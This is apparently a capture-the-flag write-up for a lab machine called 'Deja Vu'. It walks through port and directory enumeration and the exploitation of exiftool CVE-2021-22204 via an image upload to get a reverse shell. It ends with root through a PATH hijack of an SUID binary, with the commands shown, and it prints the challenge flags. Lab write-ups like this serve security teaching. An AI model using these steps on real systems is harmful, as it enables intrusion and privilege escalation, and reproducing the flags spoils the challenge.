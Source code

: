 # Deja Vu


1. Enumerate with nmap. SSH is running on port 22, and an http server running on golang is on port 80. If we check the website's source code, we find a comment that suggests that the dog pictures are clickable. It seems that they have additional data about the pictures
```
root@ip-10-10-116-168:~# sudo nmap -sS -A 10.10.58.228

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-20 03:38 BST
Nmap scan report for ip-10-10-58-228.eu-west-1.compute.internal (10.10.58.228)
Host is up (0.0034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 30:0f:38:8d:3b:be:67:f3:e0:ca:eb:1c:93:ad:15:86 (RSA)
|   256 46:09:66:2b:1f:d1:b9:3c:d7:e1:73:0f:2f:33:4f:74 (ECDSA)
|_  256 a8:43:0e:d2:c1:a9:d1:14:e0:95:31:a1:62:94:ed:44 (EdDSA)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Dog Gallery!
MAC Address: 02:DE:C1:6E:B6:65 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (93%), Linux 3.8 (93%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   3.39 ms ip-10-10-58-228.eu-west-1.compute.internal (10.10.58.228)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.26 seconds
```

2. Brute force directories with gobuster and find the `/upload` endpoint
```
root@ip-10-10-116-168:~# gobuster dir -u http://10.10.58.228/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.228/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/04/20 03:49:12 Starting gobuster
===============================================================
/favicon.ico (Status: 200)
/index.html (Status: 301)
/upload (Status: 301)
===============================================================
2022/04/20 03:49:12 Finished
===============================================================
```

3. Download a random picture, upload it, and we find that it gets displayed in the home page

4. Use Burp Suite to analyze the requests made when a dog picture is clicked. These are the requests Burp caught, in order. It seems like there are multiple endpoints with different purposes
```
GET /dogpic/?id=0 HTTP/1.1
Host: 10.10.58.228
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.58.228/
Upgrade-Insecure-Requests: 1
```
```
GET /dog/get/0 HTTP/1.1
Host: 10.10.58.228
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.58.228/dogpic/?id=0
```
```
GET /dog/getexifdata/0 HTTP/1.1
Host: 10.10.58.228
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```
```
GET /dog/getmetadata/0 HTTP/1.1
Host: 10.10.58.228
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```

5. We want to find the version of exiftool, so we want to capture the response to the request made to `/dog/getexifdata/0`. Use `Do Intercept` > `Response to this request` to do this. It seems that the server simply executes exiftool and sends all the data through the api to us, which is excessive data exposure. We find that the exiftool version is `12.23`
```
HTTP/1.1 200 OK
Content-Type: application/json
Date: Wed, 20 Apr 2022 05:23:08 GMT
Content-Length: 1238
Connection: close

[{
  "SourceFile": "temp/2395016649.jpg",
  "ExifToolVersion": 12.23,
  "FileName": "2395016649.jpg",
  "Directory": "temp",
  "FileSize": "339 KiB",
  "FileModifyDate": "2022:04:20 06:23:06+01:00",
  "FileAccessDate": "2022:04:20 06:23:06+01:00",
  "FileInodeChangeDate": "2022:04:20 06:23:06+01:00",
  "FilePermissions": "-rw-------",
  "FileType": "JPEG",
  "FileTypeExtension": "jpg",
  "MIMEType": "image/jpeg",
  "JFIFVersion": 1.01,
  "ExifByteOrder": "Big-endian (Motorola, MM)",
  "XResolution": 96,
  "YResolution": 96,
  "ResolutionUnit": "inches",
  "Artist": "Muirland",
  "DateTimeOriginal": "2021:09:10 21:35:47",
  "CreateDate": "2021:09:10 21:35:47",
  "SubSecTimeOriginal": 14,
  "SubSecTimeDigitized": 14,
  "XPAuthor": "Muirland",
  "Padding": "(Binary data 2060 bytes, use -b option to extract)",
  "About": "uuid:faf5bdd5-ba3d-11da-ad31-d33d75182f1b",
  "Creator": "Muirland",
  "ImageWidth": 1022,
  "ImageHeight": 845,
  "EncodingProcess": "Baseline DCT, Huffman coding",
  "BitsPerSample": 8,
  "ColorComponents": 3,
  "YCbCrSubSampling": "YCbCr4:4:4 (1 1)",
  "ImageSize": "1022x845",
  "Megapixels": 0.864,
  "SubSecCreateDate": "2021:09:10 21:35:47.14",
  "SubSecDateTimeOriginal": "2021:09:10 21:35:47.14"
}]
```

6. After doing some research, it's apparent that exiftool version 12.23 has a vulnerability `CVE-2021-22204` that allows for remote code execution. There are many exploits available such as [this one](https://github.com/AssassinUKG/CVE-2021-22204), but we can use the build in module in metasploit. A few sources that explains the vulnerability [1](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/), [2](https://blogs.blackberry.com/en/2021/06/from-fix-to-exploit-arbitrary-code-execution-for-cve-2021-22204-in-exiftool), [3](https://www.openwall.com/lists/oss-security/2021/05/10/5)

7. After generating the payload image, upload it using the `/upload` endpoint, launch a reverse shell listener, and then click on the image on the home page to trigger it and get a shell. Now print out the contents of the file `/home/dogpics/user.txt` to get `dejavu{735c0553063625f41879e57d5b4f3352}`

8. Now download linpeas on the attacker machine, host it on an http server with `python3 -m http.server`, and download it onto the victim and run it. We find that `/home/dogpics/serverManager` has the suid bit set and can be run with root permissions
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
    setuid(0);
    setgid(0);
    printf(
        "Welcome to the DogPics server manager Version 1.0\n"
        "Please enter a choice:\n");
    int operation = 0;
    printf(
        "0 -\tGet server status\n"
        "1 -\tRestart server\n");
    while (operation < 48 || operation > 49) {
        operation = getchar();
        getchar();
        if (operation < 48 || operation > 49) {
            printf("Invalid choice.\n");
        }
    }
    operation = operation - 48;
    //printf("Choice was:\t%d\n",operation);
    switch (operation)
    {
    case 0:
        //printf("0\n");
        system("systemctl status --no-pager dogpics");
        break;
    case 1:
        system("sudo systemctl restart dogpics");
        break;
    default:
        break;
    }
}
```

9. We see that the full path of `systemctl` isn't specified, so we can create our own systemctl binary and modify the path to point to it. Then we can run it through `serverManager` and escalate privileges
```
[dogpics@dejavu ~]$ which systemctl
/usr/bin/systemctl
[dogpics@dejavu ~]$ echo '/bin/bash' > systemctl
[dogpics@dejavu ~]$ chmod +x systemctl
[dogpics@dejavu ~]$ export PATH=.:$PATH
[dogpics@dejavu ~]$ which systemctl
./systemctl
[dogpics@dejavu ~]$ ./serverManager
Welcome to the DogPics server manager Version 1.0
Please enter a choice:
0 -	Get server status
1 -	Restart server
0
[root@dejavu ~]# whoami
root
```

10. Print out `/root/root.txt` to get `dejavu{5ad931368bdc46f856febe4834ace627}`
